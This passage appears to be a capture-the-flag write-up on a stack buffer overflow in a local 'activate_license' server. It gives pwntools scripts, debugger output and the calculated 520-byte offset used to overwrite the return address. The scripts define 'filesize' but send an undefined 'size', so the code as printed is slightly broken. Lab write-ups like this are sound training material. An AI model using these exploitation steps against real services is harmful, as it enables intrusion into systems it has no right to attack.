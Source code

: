 Exploit skeleton:
```python
from pwn import *

io = remote('127.0.0.1', 1337)
filesize = p32(800, endian='big')   # We need to pack as 32 bit big endian

payload = [
    size,
    cyclic(1000)                    # Create a 1000 characters pattern
]

payload = b"".join(payload)
io.send(payload)
```

Running the exploit script we get a segmentation fault in the binary:
![[retired/images/image3.png]]

Now we look at what value has settled in the RSP register, and calculate the offset to RIP.
```bash
pwndbg> x/xw $rsp
0x7fffffffdd18: 0x66616166
```

```bash
$ python2 -c 'from pwn import *; print cyclic_find(unhex("66616166")[::-1])'
520
```

So we can send 520 bytes before overwriting the RIP.
After exiting the debugger, it would be nice to forcibly kill all web server instances:
```bash
$ ps aux | grep activate_license | awk '{print $2}' | xargs kill -9
```

### Overwritting the RIP
Let's check that we can actually overwrite the return address with an arbitrary value. To do this, we will write a simple Python script that will send 520 A's + `0xd34dc0d3` and check the RIP address:
```python
#!/usr/bin/env python3

from pwn import *

context.arch      = 'amd64'
context.os        = 'linux'
context.endian    = 'little'
context.word_size = 64

filesize = p32(800, endian='big')

payload = b''
payload += size
payload += b'A' * 520
payload += p64(0xd34dc0d3)

r = remote('localhost', 1337)
r.sendline(payload)
r.sendline()
```
